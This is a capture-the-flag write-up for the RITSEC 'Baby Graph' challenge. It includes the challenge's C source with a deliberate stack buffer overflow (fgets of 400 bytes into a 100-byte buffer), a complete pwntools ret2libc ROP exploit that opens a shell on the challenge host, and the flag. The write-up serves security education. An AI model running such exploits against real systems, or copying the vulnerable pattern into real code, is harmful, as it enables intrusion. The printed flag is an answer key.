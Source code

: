 # Baby Graph

This is what happens to your baby when you want a pwner and a graph theorist. Do your part!!!

nc challenges1.ritsec.club 1339

Author: @fpasswd on Discord, @flyingpassword on Twitte

## Challenge

Connecting to the socket prompts us with a yes/no question with some parameters and points.
We must determine whether the graph is Eulerian or not.

Successfully answering 5 prompts will lead us to the `vuln` function, which prints the address to `system` and accepts a line of user input.

```
-> % nc challenges1.ritsec.club 1339
Here is your baby graph
V = 2 - E = 0
Now tell me if this baby is Eulerian? (Y/N)
Y
Here is your baby graph
V = 5 - E = 8
0 2
0 3
0 4
1 2
1 4
2 3
2 4
3 4
Now tell me if this baby is Eulerian? (Y/N)
N
Here is your baby graph
V = 3 - E = 2
0 1
0 2
```

### Mitigations

```
    Arch:     amd64-64-little
    RELRO:    No RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

### Graph functions

```c
void generateGraph() {
    resetGraph();
    V = rand() % (MAXN - 2) + 2;
    E = rand() % ((V * (V - 1)) / 2);
    for (int e = 0; e < E; e++) {
        do {
            int u = rand() % V;
            int v = rand() % V;
            if (u != v && !G[u][v] && !G[v][u]) {
                G[u][v] = G[v][u] = 1;
                deg[u]++;
                deg[v]++;
                break;
            }
        } while (true);
    }

    for (int v = 0; v < V; v++) {
        if (deg[v] % 2) {
            bruh = false;
            break;
        }
    }
}

void printGraph() {
    puts("Here is your baby graph");
    printf("V = %u - E = %u\n", V, E);
    for (int v = 0; v < V; v++) {
        for (int u = v + 1; u < V; u++) {
            if (G[u][v]) {
                printf("%u %u\n", v, u);
            }
        }
    }
}
```

### Vulnerable code

```c
void vuln() {
    char buf[100];

    printf("Here is your prize: %p\n", system);
    fgets(buf, 400, stdin);
}
```

## Solution

I do not know graph theory.

While testing locally, it appears that the answer is more likely to be no.
I found that it was not too rare for all 5 graphs to not be Eulerian.
Therefore, we can try sending `"N N N N N "` multiple times until we succeed.
The time required to get to the `vuln` function varies, but it usually takes no more than a few seconds when targetting the remote.

Once we're sent to `vuln`, we can use the known `system` address to calculate the base address of libc.
From here, we can calculate the address of the `"/bin/sh\x00"` string within libc.

Since PIE is disabled, we can also use rop gadgets from the binary.
In this exploit, we use the `pop rdi; ret` gadget to pass `"/bin/sh\x00"` to `system` from earlier.

Once we fill the buffer and send our payload, we get a shell where we can read the `flag.txt` file.

## Exploit

```py
#!/usr/bin/env python
# -*- coding: utf-8 -*-
# This exploit template was generated via:
# $ pwn template --host challenges1.ritsec.club --port 1339 babygraph
from pwn import *

# Set up pwntools for the correct architecture
exe = context.binary = ELF('babygraph')
libc = ELF('libc.so.6')

# Many built-in settings can be controlled on the command-line and show up
# in "args".  For example, to dump all data sent/received, and disable ASLR
# for all created processes...
# ./exploit.py DEBUG NOASLR
# ./exploit.py GDB HOST=example.com PORT=4141
host = args.HOST or 'challenges1.ritsec.club'
port = int(args.PORT or 1339)

def local(argv=[], *a, **kw):
    '''Execute the target binary locally'''
    if args.GDB:
        return gdb.debug([exe.path] + argv, gdbscript=gdbscript, *a, **kw)
    else:
        return process([exe.path] + argv, *a, **kw)

def remote(argv=[], *a, **kw):
    '''Connect to the process on the remote host'''
    io = connect(host, port)
    if args.GDB:
        gdb.attach(io, gdbscript=gdbscript)
    return io

def start(argv=[], *a, **kw):
    '''Start the exploit against the target.'''
    if args.LOCAL:
        return local(argv, *a, **kw)
    else:
        return remote(argv, *a, **kw)

# Specify your GDB script here for debugging
# GDB will be launched if the exploit is run via e.g.
# ./exploit.py GDB
gdbscript = '''
tbreak main
continue
'''.format(**locals())

#===========================================================
#                    EXPLOIT GOES HERE
#===========================================================
# Arch:     amd64-64-little
# RELRO:    No RELRO
# Stack:    No canary found
# NX:       NX enabled
# PIE:      No PIE (0x400000)

# IDK GRAPH THEORY LOL
while True:
    try:
        io = start()
        io.send("N N N N N ")
        io.recvuntil("prize: ")
        break
    except:
        io.close()
        pass

leak = io.recvline().decode()[:-1]
system = int(leak, 0)
libc.address = system - libc.sym["system"]
bin_sh = next(libc.search(b'/bin/sh'))

io.success("LIBC: {}".format(hex(libc.address)))
io.success("SYSTEM: {}".format(hex(system)))
io.success("BIN_SH: {}".format(hex(bin_sh)))

rop = ROP(exe)
pop_rdi = rop.find_gadget(['pop rdi', 'ret'])[0]
ret = rop.find_gadget(['ret'])[0]

io.success("POP_RDI: {}".format(hex(pop_rdi)))
io.success("RET: {}".format(hex(ret)))

payload = flat({
    0x78:[
        ret,
        pop_rdi,
        bin_sh,
        system,
        ],
    })

io.sendline(payload)

io.interactive()
```

## Flag

`RS{B4by_gr4ph_du_DU_dU_Du_B4by_graph_DU_DU_DU_DU_Baby_gr4ph}`

